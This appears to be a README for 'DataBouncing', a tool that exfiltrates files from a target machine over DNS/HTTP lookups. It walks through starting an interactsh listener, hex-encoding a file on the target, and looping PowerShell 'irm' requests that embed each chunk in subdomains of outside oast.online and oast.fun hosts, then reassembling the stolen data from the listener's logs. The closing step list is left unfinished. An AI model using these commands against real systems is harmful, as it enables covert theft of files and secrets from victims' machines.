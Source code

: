 # DataBouncing

You have two options. 
Use the [InteractSh Web Client](https://app.interactsh.com/#/) or 
use this [Build Script](https://github.com/Unit-259/DataBouncing/blob/main/Resources/interactshBuild.sh) with an Ubuntu 22.04 image.

Run this command on your listener machine to start the InteractSh Client and define your log file

```
interactsh-client -v -o /root/DataBouncing/logs.txt
```

Next on the target machine you are going to want to convert a file to Hex and prepare it for transfer with this script:
[chunks](https://github.com/Unit-259/DataBouncing/blob/main/Client/Convert-FileToHexChunks.ps1)



```
foreach ($i in $x.PSObject.Properties) {echo $i.Value}
```


```
irm "xregex.$secret.cln0jgqilvdjjg1nk8d0ksttdzkd7waij.oast.online"
```

```
foreach ($i in $x.PSObject.Properties) {$secret = $i.Value;irm "xregex.$secret.cln6u1qilvdt6859fml0quuh98ohq8huk.oast.fun"}
```

```
Convert-hexToAscii (find-secret -FilePath ./logs.txt -XRegex 'xregex')
```

```
# 1. Convert File to hex 
# 2. segment with numbers 
# 3. 
```
